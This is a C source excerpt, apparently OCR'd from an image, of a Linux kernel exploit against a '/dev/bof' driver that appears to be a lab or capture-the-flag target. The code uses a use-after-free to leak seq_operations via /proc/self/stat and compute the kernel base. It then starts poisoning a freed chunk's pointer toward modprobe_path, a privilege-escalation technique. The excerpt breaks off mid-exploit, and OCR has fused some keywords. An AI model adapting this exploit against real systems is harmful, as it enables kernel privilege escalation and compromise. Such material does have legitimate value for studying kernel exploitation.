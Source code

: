 ```
size_t*buf;
longlong idx;
};

voidalloc_buf(int fd, struct param* p)
{
printf("[+] kmalloc len:%lu idx:%lld\n", p->len, p->idx);
    ioctl(fd, BOF_MALLOC, p);
}

voidfree_buf(int fd, struct param* p)
{
printf("[+] kfree len:%lu idx:%lld\n", p->len, p->idx);
    ioctl(fd, BOF_FREE, p);
}

voidread_buf(int fd, struct param* p)
{
printf("[+] copy_to_user len:%lu idx:%lld\n", p->len, p->idx);
    ioctl(fd, BOF_READ, p);
}

voidwrite_buf(int fd, struct param* p)
{
printf("[+] copy_from_user len:%lu idx:%lld\n", p->len, p->idx);
    ioctl(fd, BOF_WRITE, p);
}

intmain()
{
// len buf idx
size_t* buf =malloc(0x500);
struct param p ={0x20, buf,0};

printf("[+] user_buf : %p\n", p.buf);
int bof_fd = open("/dev/bof", O_RDWR);
if(bof_fd <0){
puts(RED "[-] Failed to open bof." NONE);
exit(-1);
}

printf(YELLOW "[*] try to leak kbase\n" NONE);

    alloc_buf(bof_fd,&p);
    free_buf(bof_fd,&p);

int seq_fd = open("/proc/self/stat", O_RDONLY);
    read_buf(bof_fd,&p);
    qword_dump("leak seq_ops", buf,0x20);

size_t kernel_offset = buf[0]- seq_ops_start;
printf(YELLOW "[*] kernel_offset %p\n" NONE,(void*)kernel_offset);
    modprobe_path += kernel_offset;
printf(LIGHT_BLUE "[*] modprobe_path addr : %p\n" NONE,(void*)modprobe_path);

    p.len =0xa8;
    alloc_buf(bof_fd,&p);
    free_buf(bof_fd,&p);

    read_buf(bof_fd,&p);

    buf[0]= modprobe_path -0x20;

```